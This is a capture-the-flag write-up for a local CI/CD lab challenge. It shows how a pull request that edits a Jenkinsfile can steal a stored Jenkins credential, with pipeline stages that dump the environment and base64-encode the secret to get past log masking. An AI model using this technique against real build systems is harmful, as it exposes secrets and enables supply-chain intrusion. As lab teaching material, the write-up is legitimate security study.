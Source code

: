# White Rabbit

The challenge : I’m late, I’m late! No time to say ״hello, goodbye״! Before you get caught, use your access to the Wonderland/white-rabbit repository to steal the flag1 secret stored in the Jenkins credential store.

## Brainstorming

For starter, we were given credentials for :
- **Jenkins** http://localhost:8080
  - Username: alice
  - Password: alice
- **Gitea** http://localhost:3000
  - Username: thealice
  - Password: thealice
- **GitLab** http://localhost:4000
  - Username: alice
  - Password: alice1234

And when we look at the challenge, it seems that the flag1 is a secret that was stored in Jenkins. Moreover, the challenge told us to use our access to the repository in gitea to do that so it might be vulnerability related to Jenkinsfile. 

## Messing with the pipeline 

First we try to change the Jenkinsfile and create a new pull request and we see that the pipeline were automatically built. It mean that we can get credentials of Jenkins through the pipeline. 
![image info](./pictures/White_Rabbit_1.png)

## Getting the credentials through Jenkins pipeline

To get the credentials through Jenkinsfile, we can add this stage to the Jenkinsfile :
```
stage('Looking for credentials') {
  steps {
    withCredentials([string(credentialsId : 'flag1', variable : 'SECRET')]) {
      sh ''' env
    '''                 
    }
  }
}
```

However it seems like the secret were masked 
![image info](./pictures/White_Rabbit_2.png)

But that was not secure as state in here : https://www.jenkins.io/blog/2019/02/21/credentials-masking/

So we now know that despite being masked and cannot be print directly to the build log, the secret can be encrypt to base64 and then print that result to the build log 

![image info](./pictures/White_Rabbit_3.png)

So we change the Jenkinsfile to this to print out the base 64 of the secret : 

stage to the Jenkinsfile :
```
stage('Looking for credentials') {
  steps {
    withCredentials([string(credentialsId : 'flag1', variable : 'SECRET')]) {
      sh ''' echo $SECRET | base64 
    '''                 
    }
  }
}
```

Take that base64 string and decode it and we will have the flag : 06165DF2-C047-4402-8CAB-1C8EC526C115

## Reference 
https://cloud.hacktricks.xyz/pentesting-ci-cd/jenkins-security/basic-jenkins-information
https://www.codurance.com/publications/2019/05/30/accessing-and-dumping-jenkins-credentials
https://www.jenkins.io/blog/2019/02/21/credentials-masking/